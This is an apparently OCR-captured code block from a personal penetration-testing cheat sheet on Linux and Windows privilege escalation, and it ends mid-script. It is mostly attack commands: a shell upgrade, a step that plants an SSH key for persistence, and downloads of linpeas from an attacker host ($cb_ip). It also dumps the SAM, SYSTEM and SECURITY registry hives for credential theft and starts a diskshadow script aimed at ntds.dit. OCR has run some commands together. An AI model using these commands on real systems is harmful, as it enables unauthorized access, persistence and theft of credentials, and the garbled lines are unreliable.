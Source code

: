 ```bash


{{{ =-=freetty =-=

python3 -c 'import pty;pty.spawn("/bin/bash")'            
// CTRL+Z
sttyraw -echo;fg
exportTERM=xterm

}}}

!!run even w/o pw !!
sudo -l


!!MAKE NOTE OF ANYTHING ABNORMAL !!
ls -latrF.
ls -latrF/tmp /opt / /home
netstat -pantu
ps axjf

{{{ =-=ssh =-=
##see if current user can ssh
cat/etc/ssh/sshd_config
##if yes, add
mkdir/home/$(whoami)/.ssh; echo "$my_public_key" >> /home/$(whoami)/.ssh/authorized_keys
ssh $user@$target
}}}

##get linpeas
wget http://$cb_ip/linpeas.sh
curl http://$cb_ip/linpeas.sh -O linpeas.sh

!!READ ALL OUTPUT !!

##try any creds against all users
su $user


}}}




{{{ =-=-=Windows =-=-=


{{{ =-=privs =-= 

SeImpersonate -> Potato  ## free system
Backup:  ## can save registry 


reg save hklm\sam C:\windows\temp\SAM
reg save hklm\system C:\windows\temp\SYSTEM
reg save hklm\security C:\windows\temp\SECURITY


##if on a domain, need ntds.dit
{{{dsh file
setcontext persistent nowriters
add volume c: alias test
create
```